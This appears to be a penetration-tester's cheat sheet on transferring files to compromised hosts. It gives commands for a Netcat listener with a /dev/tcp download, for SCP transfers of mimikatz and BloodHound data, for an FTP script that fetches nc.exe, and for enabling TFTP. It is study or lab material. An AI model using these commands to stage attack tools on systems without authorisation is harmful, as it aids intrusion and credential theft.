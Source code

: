 Netcat can also serve content for transfer by the /dev/tcp device file.

### Start Netcat Listener
````bash
nc -lvnp 80 <LinEnum.sh
````
### Download The File
````bash
cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh
````
## SCP
[[SCP]]
The OpenSSH client is available by default on Linux and has been included in Windows 10 and Windows Server 2019 since Autumn 2018. On Windows, the OpenSSH server can be enabled using this procedure. On older Windows systems, the PuTTY Secure Copy client (pscp.exe) can be used.

### SCP Upload
````bash
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
````
### SCP Download
````bash
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
````
## FTP
Windows 10 includes a native FTP client, which can also read commands from a script to work in a non-interactive shell.

### Ftp-script.txt
  
**Create a file with name: Ftp-script.txt**
````powershell 
open 10.10.10.32
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
````
#### FTP Transfer
````powershell
ftp -s:ftp-script.txt
````
## TFTP
The TFTP client is not available by default in Windows, but it can be enabled using DISM. \

### FTP Transfer
DISM /online /Enable-Feature /FeatureName:TFTP
````
In newer versions of Windows, the Install-WindowsFeature PowerShell cmdlet can also be used. Both DISM and Install-WindowsFeature require administrative access.

### FTP Transfer
````powershell
Install-WindowsFeature TFTP-Client
````
## RDP
Remote Desktop is often enabled on Windows machines, and from Linux, rdesktop can be used to expose a local folder in the remote RDP session.

